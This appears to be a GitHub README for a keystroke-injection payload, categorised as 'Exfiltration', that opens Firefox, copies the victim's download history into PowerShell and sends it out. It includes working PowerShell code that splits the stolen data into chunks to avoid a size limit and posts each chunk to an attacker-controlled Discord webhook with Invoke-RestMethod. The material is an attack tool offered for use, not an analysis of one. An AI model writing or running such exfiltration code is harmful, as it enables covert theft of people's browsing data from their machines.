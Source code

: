 # Exports all the links of the downloads

This script can be used to export all the links of the latest downloads made through Firefox.

**Category**: Exfiltration


## Description

This script can be used to export all the links of the latest downloads made through Firefox.

This script open the Firefox app, then go to downloads page and copy all, then open a PowerShell and put all the download link in a var named $DOWNLOADS, then use a Discord Webhook to exfiltrate it.


## Dependencies

* Firefox must be installed
* Internet connection


## Settings

- You must define your Discord webhook if you want to use this method for the exfiltration

    `DEFINE DISCORD_WEBHOOK example`

- This delay depends on the number of links

    `DELAY 10000`

- This algorithm is used to avoid the size limit imposed by Invoke-RestMethod on the payload length

    ```
    $len = $DOWNLOADS.Length
        $MAX_LEN = 1900

        $ITERATIONS = [math]::Ceiling($len / $MAX_LEN)

        for ($i = 0; $i -lt $ITERATIONS; $i++) {
            $init = $i * $MAX_LEN
            $end = [math]::Min(($i + 1) * $MAX_LEN, $len)
            
            $sub = $DOWNLOADS.Substring($init, $end - $init)
            $Payload = @{content = $sub} | ConvertTo-Json

            Invoke-RestMethod -Uri $WebhookUrl -Method Post -Body $Payload -ContentType 'application/json'
        }
    ```

## Credits

<h2 align="center"> Aleff :octocat: </h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://github.com/aleff-github">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/github.png?raw=true width="48" height="48" />
      </a>
      <br>Github
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/alessandro_greco_aka_aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/instagram.png?raw=true width="48" height="48" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://www.linkedin.com/in/alessandro-greco-aka-aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/linkedin.png?raw=true width="48" height="48" />
      </a>
      <br>Discord
    </td>
  </tr>
</table>
</div>